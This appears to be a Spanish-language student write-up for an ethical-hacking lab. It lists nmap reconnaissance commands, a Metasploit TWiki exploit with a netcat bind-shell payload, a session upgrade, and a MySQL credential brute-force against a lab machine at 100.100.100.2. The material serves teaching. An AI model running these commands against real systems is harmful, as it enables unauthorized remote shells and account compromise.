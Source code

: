 # Tarea: Hacking Ético

## Máquina Windows con vulnerabilidades
- Obtener información del sistema vulnerable
* Explorar e identificar vulnerabilidades del sistema
+ Explotar las vulnerabilidades

## Máquina Linux con vulnerabilidades
- Obtener información del sistema vulnerable

    *Para saber la ip del Linux al que queremos ver vulnerabilidades usaremos:*

      nmap -sn *dir_red/mascara*

    <br>

* Explorar e identificar vulnerabilidades del sistema

    *Puedes saber los puertos que un linux tiene abiertos con:*

      nmap -sT *ip del cliente*

    <br>


+ Explotar las vulnerabilidades
  - Puerto 80 -> HTTP
 
     *Este comando carga el módulo de explotación llamado "twiki_history" que está diseñado para atacar vulnerabilidades en la aplicación web TWiki*
	
	    use exploit/unix/webapp/twiki_history

    *Muestra las opciones disponibles para configurar el módulo de explotación "twiki_history".*
    
    	show options
    
    *Establece la dirección IP del host al que se pretende atacar, en este caso 100.100.100.2.*
    
    	set rhost 100.100.100.2
    
    *Establece el payload que se utilizará en la explotación. En este caso, se utiliza "cmd/unix/bind_netcat", que esta diseñado para abrir una conexión usando Netcat en la máquina.*
    
    	set payload cmd/unix/bind_netcat
    
    *Ejecuta la explotación en segundo plano.*
    
    	exploit -j
    
    *Muestra una lista de las sesiones activas que se han establecido después de la explotación. Esto permite identificar si se ha obtenido acceso a la máquina.*
    
    	sessions -l
    
    *Cambia a un módulo de post-explotación llamado "shell_to_m". Se utiliza para interactuar con la máquina objetivo una vez hayamos accedido.*
    
    	use post/multi/manage/shell_to_m
    
    *Establece conexíon con la primera sesion iniciada para ejecutar el módulo "shell_to_m".*
    
    	set session 1
    
    *Ejecuta el módulo "shell_to_m" en la sesión número 1.*
    
    	exploit
    
    *Interactúa con la segunda sesión (sesión número 2), obteniendo acceso a la máquina vulnerable.*
    
    	sessions -i 2
    
    *Sale la IP de la máquina vulnerable una vez conectado.*
    
    	ifconfig
    	
    *Confirmación del acceso a la máquina vulnerable.*
    
    	cat /etc/hostname


    <br>
  
  - Puerto 3306 -> MySQL
 
    *Este comando indica el uso del módulo mysql_login para hacer una prueba de inicio de sesión MySQL, utilizando una lista de nombres de usuario y contraseñas.*
    
        use scanner/mysql/mysql_login
    
    *Muestra las opciones que se pueden configurar del módulo*
    
        show options
    
    *Establece la dirección IP de la máquina vulnerbale, en mi caso la IP es: 100.100.100.2.*
    
        set rhosts 100.100.100.2
    
    *Define el archivo unix_users.txt como la lista de posibles nombres de usuario y contraseñas para probar durante la prueba de inicio de sesión.*
    
        set userpass_file /usr/share/metasploit-framework/data/wordlists/unix_users.txt
    
    *Con run se intentará iniciar sesión en el servidor MySQL utilizando la lista de nombres de usuario y contraseñas del archivo unix_users.txt*
    
        run
 
    *En la lista de usuarios que saldrá que se han probado usamos el que ha podido iniciar la sesión con éxito, en mi caso root*
    
    *Luego en una terminal aparte ejecutamos el siguiente comando y pedira contraseña aunque está vacía*
    
        mysql -u root -h 100.100.100.2 -p
